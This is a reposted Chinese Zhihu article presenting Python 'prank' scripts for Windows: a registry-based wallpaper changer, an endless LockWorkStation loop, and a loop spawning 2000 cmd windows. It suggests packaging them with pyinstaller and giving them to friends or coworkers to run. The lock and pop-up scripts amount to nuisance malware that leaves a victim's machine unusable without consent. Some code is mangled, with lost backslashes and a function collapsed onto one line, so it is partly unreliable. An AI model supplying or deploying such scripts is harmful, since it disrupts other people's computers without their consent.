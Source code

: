 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [zhuanlan.zhihu.com](https://zhuanlan.zhihu.com/p/594773470)

Python 无限恶搞朋友电脑，别提有多爽了，哈哈，打造自己的壁纸修改器，电脑无限锁屏， 无限弹窗，都在这里！！！

**1、修改电脑桌面壁纸**  
**工具使用**  

*   开发环境：python3.7， Windows10
*   使用工具包：win32api，win32con, win32gui, os, random
*   win32 的工具下载命令：

```
pip install pywin32

```

**项目解析思路**  
桌面数据信息是保存在注册表上的内容，数据保存在第二项 的 Control PanelDesktop 子项里就可以了。  

  
通过 win32api 打开注册表选择配置的对应子项生成对应句柄

```
k = win32api.RegOpenKeyEx(win32con.HKEY_CURRENT_USER, 'Control 
PanelDesktop', 0, win32con.KEY_SET_VALUE)

```

将桌面样式调整拉伸模式 2 拉伸壁纸 0 壁纸居中 6 适应 10 填充  
准备好需要修改的图片壁纸（壁纸数据通过爬虫技术进行采集）  

![](https://pic1.zhimg.com/v2-ef5cbf301605392a943f62313b6080e4_r.jpg)

  
win32gui 提交数据将桌面修改成自己准备的桌面壁纸

```
win32gui.SystemParametersInfo(win32con.SPI_SETDESKWALLPAPER, img_path, 
win32con.SPIF_SENDWININICHANGE)

```

```
源码分享

import win32api   # 调用Windows底层的接口配置   pip install pywin32
import win32con   # 修改数据
import win32gui   # 提交对应的数据
import os       # Python 管理文件工具包
import random   # 取出对应的随机值
import time   # 时间管理模块

def set_wallpaper():
    path = os.listdir(r'图片文件夹')
    for i in path:
        img_path = r'图片文件夹' + "\" + i
        print(img_path)
        # 打开注册表  句柄
        k = win32api.RegOpenKeyEx(win32con.HKEY_CURRENT_USER, 'Control PanelDesktop', 0, win32con.KEY_SET_VALUE)
        # 2 拉伸壁纸   0 壁纸居中  6 适应 10 填充
        win32api.RegSetValueEx(k, "WallpaperStyle", 0, win32con.REG_SZ, '2')
        win32gui.SystemParametersInfo(win32con.SPI_SETDESKWALLPAPER, img_path, win32con.SPIF_SENDWININICHANGE)
        time.sleep(10)

set_wallpaper()

```

**2、电脑无限锁屏工具使用**  

*   开发环境：python3.7， Windows10
*   使用工具包：ctypes ctypes

ctypes ctypes 是 Python 的外部函数库。它提供了与 C 兼容的数据类型，并允许调用 DLL 或共享库中的函数。可使用该模块以纯 Python 形式对这些库进行封装。通过操作系统底层的 user32.dll 实现锁屏效果  

![](https://pic4.zhimg.com/v2-87df70da3199407e22f055de95ba896f_r.jpg)

```
def lock_windows(): while True: user = windll.LoadLibrary("user32.dll") 
user.LockWorkStation() lock_windows()

```

代码以提供各位大佬可自行尝试  

![](https://pic1.zhimg.com/v2-9995d0700af2a22f61057aa7a1ab86cc_r.jpg)

  
打包的方法：pyinstaller -F 你的文件名  
打包之后可给你朋友同事尝试一下（为了朋友同事间的友谊最好加个延时操作）  
**3、无限弹窗**

之前大家应该都了解这样的， 通过 os 模块执行打开 cmd 窗口页面（确保是环境变量里有的选项）  

```
for i in range(2000):
    os.system('start cmd')

```

电脑配置低的请勿轻易尝试 win 关闭页面命令 ：**start taskkill /f /im cmd.exe /t**